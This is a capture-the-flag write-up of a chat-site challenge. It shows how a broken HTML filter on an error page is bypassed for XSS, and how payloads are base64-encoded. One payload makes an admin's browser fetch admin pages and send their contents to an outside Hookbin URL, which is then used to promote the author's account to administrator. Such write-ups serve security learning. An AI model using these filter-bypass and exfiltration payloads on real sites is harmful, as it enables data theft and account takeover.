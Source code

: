 # 90sChat

## XSS
Any 404 or 403 error will use the same page. Since the website doesn't have a favicon even that gets redirected to the error page.

![](https://i.imgur.com/z57ADHv.png)

When we go to `/error.html?msg=<h1>Hello world!</h1>` then we notice the following piece of code got added to our page:
![](https://i.imgur.com/h5k2spw.png)

So something is wrong with the HTML filter, let's take a look.

```js
function removeTags(txt) {
    let ret = ""
    let filtering = false
    for(const c of txt) {
        if(!filtering) ret += c

        if(c == "<") {
            filtering = true
        }
        if(c == ">") {
            filtering = false
        }
    }
    if(ret.indexOf("script") != -1) ret = "XSS detected!"
    return ret
}

document.write("<h1>Error!</h1>")
document.write(removeTags(decodeURI(window.location.search.split("=")[1])))
```

This filter would be correct if the `if(!filtering) ret += c` got executed after checking whether or not the filter should start. Now, a character gets added even if it's supposed to be filtered.

We can exploit this by disabling the filter after it starts, let's try `/error.html?msg=<>h1>Hello world!<>/h1>`

![](https://i.imgur.com/jymgQZC.png)

It worked!

Now we notice that the script looks for "script" and filters it out in case it appears in our exploit. So let's try injecting `/error.html?msg=<>img src=x onerror=alert(1)>`.

![](https://i.imgur.com/ZiVtEQn.png)

Something weird happened, if we look at the code we notice `window.location.search.split("=")[1]`.

This means that our exploit will get messed up if any equal signs are included in the payload. So we can not use HTML attributes in order to get XSS. Meaning that `<script>` is our only option.

Looking at [w3schools](https://www.w3schools.com/jsref/jsref_indexof.asp)' second example of `.indexOf()` we notice that indexOf is caps sensitive. HTML is not. Meaning we can use `<ScRiPt>` and it will bypass the XSS filter but still get executed as valid HTML.

Time to combine all this knowledge and gain XSS.

`/error.html?msg=<>Script>alert(1)<>/Script>`

![](https://i.imgur.com/XXIG8rc.png)

Success! But now our payload can not have any equal signs which might prove difficult, so let's use encoding in order to bypass this restriction.

## Encoding the payload

There are a lot of ways to encode the payload but I will use base64 because it's built into javascript. The problem with base64 is that equal signs are added to the end depending on the length. In order to solve this we will add spaces as padding until this issue is resolved.

Let's try and encode the following script as an example:
```js
let myVariable = "Hello world!"
alert(myVariable)
```

We simply plop it into https://www.base64encode.org/ and we get the following result: `bGV0IG15VmFyaWFibGUgPSAiSGVsbG8gd29ybGQhIgphbGVydChteVZhcmlhYmxlKQ==`

Now we can do two things. We can simply remove the equal signs and `atob()` should automatically fix this padding mistake, or we fix the padding ourselves. To fix the padding we simply add 2 spaces at the end of the script and then we get the following encoded string: `bGV0IG15VmFyaWFibGUgPSAiSGVsbG8gd29ybGQhIgphbGVydChteVZhcmlhYmxlKSAg`

So now all we have to do is throw this into `eval(atob())` and we are done.

So let's go to `/error.html?msg=<>Script>eval(atob("bGV0IG15VmFyaWFibGUgPSAiSGVsbG8gd29ybGQhIgphbGVydChteVZhcmlhYmxlKSAg"))<>/Script>`

![](https://i.imgur.com/NZUfbI8.png)

Our script works! We can now create more complex payloads.

## Getting admin
![](https://i.imgur.com/6YBprTB.png)

In the source code we notice a link to an admin page, which is hidden via CSS. Let's try and go to /admin.

![](https://i.imgur.com/0rQGklu.png)

This means that this page exists but we don't have access. Luckily we have an XSS and can still see what is going on by making the admin send the admin page to us.

So our goal is to `fetch("/admin")` and then send it's response to us. We can use a variety of tools to perform this out-of-band attack. I chose [Hookbin](https://hookbin.com/) to do this.

```js
fetch("/admin")
.then(response => response.text())
.then(data => {
    fetch("https://hookb.in/kxYQENNwMqUBDokBLK7n?q=" + encodeURI(data))
})
```

Now we just encode this payload and give it a try by going to
`/error.html?msg=<>Script>eval(atob("ZmV0Y2goIi9hZG1pbiIpCi50aGVuKHJlc3BvbnNlID0+IHJlc3BvbnNlLnRleHQoKSkKLnRoZW4oZGF0YSA9PiB7CiAgICBmZXRjaCgiaHR0cHM6Ly9ob29rYi5pbi9reFlRRU5Od01xVUJEb2tCTEs3bj9xPSIgKyBlbmNvZGVVUkkoZGF0YSkpCn0p"))<>/Script>`

![](https://i.imgur.com/ZQN7bg0.png)

Now we get an error, which is expected, since we do not have access to this resource, but now, let's put the same URL in the chat and see what happens.

![](https://i.imgur.com/7PajRBN.png)

Success! Let's see what exactly is inside the admin page.

```html
<html>
<head>
    <title>Admin Panel</title>
</head>
<body>
    <h1>Welcome, admin!</h1>
    <nav>
        <ul>
            <li><a href="userManagementPage.html">Manage Users</a></li>
            <li><a href="clearChatHistory.html">Clear Chat History</a></li>
            <li><a href="ipAddresses.html">IP Addresses</a></li>
        </ul>
    </nav>
</body>
</html>
```

Now our objective is to make ourselves an admin, so let's repeat the same exploit but this time we fetch `/admin/userManagementPage.html`

```html
<html>
  <head>
    <title>User Management</title>
  </head>
  <body>
    <h1>User Management</h1>
    <ul>
      <li>admin - <a href="ban.html?username=admin">ban</a> - <a href="promoteToSuper.html?username=admin">make admin</a></li>
      <li>bram - <a href="ban.html?username=bram">ban</a> - <a href="promoteToSuper.html?username=bram">make admin</a></li>
      <li>daanimator - <a href="ban.html?username=daanimator">ban</a> - <a href="promoteToSuper.html?username=daanimator">make admin</a></li>
      <li>teddyanton - <a href="ban.html?username=teddyanton">ban</a> - <a href="promoteToSuper.html?username=teddyanton">make admin</a></li>
      <li>spikey - <a href="ban.html?username=spikey">ban</a> - <a href="promoteToSuper.html?username=spikey">make admin</a></li>
      <li>jenne - <a href="ban.html?username=jenne">ban</a> - <a href="promoteToSuper.html?username=jenne">make admin</a></li>
      <li>emre - <a href="ban.html?username=emre">ban</a> - <a href="promoteToSuper.html?username=emre">make admin</a></li>
      <li>nathan - <a href="ban.html?username=nathan">ban</a> - <a href="promoteToSuper.html?username=nathan">make admin</a></li>
      <li>michel - <a href="ban.html?username=michel">ban</a> - <a href="promoteToSuper.html?username=michel">make admin</a></li>
      <li>ewoudje - <a href="ban.html?username=ewoudje">ban</a> - <a href="promoteToSuper.html?username=ewoudje">make admin</a></li>
      <li>ely - <a href="ban.html?username=ely">ban</a> - <a href="promoteToSuper.html?username=ely">make admin</a></li>
      <li>BramVanGaal - <a href="ban.html?username=BramVanGaal">ban</a> - <a href="promoteToSuper.html?username=BramVanGaal">make admin</a></li>
    </ul>
  </body>
</html>
```

We see that our user is at the bottom, now it is time to promote ourselves to admin. Let's pull the same exploit, only this time we go to `/admin/promoteToSuper.html?username=BramVanGaal`.

```html
<html>
  <head>
    <title>Grant Admin</title>
  </head>
  <body>
    <h1>Success!</h1>
    <p>This user is now an administrator.</p>
  </body>
</html>
```

Sweet! Now we refresh our page and see what happens.

![](https://i.imgur.com/P3XbyZO.png)

We are greeted with the flag. This challenge is now solved :smile: 
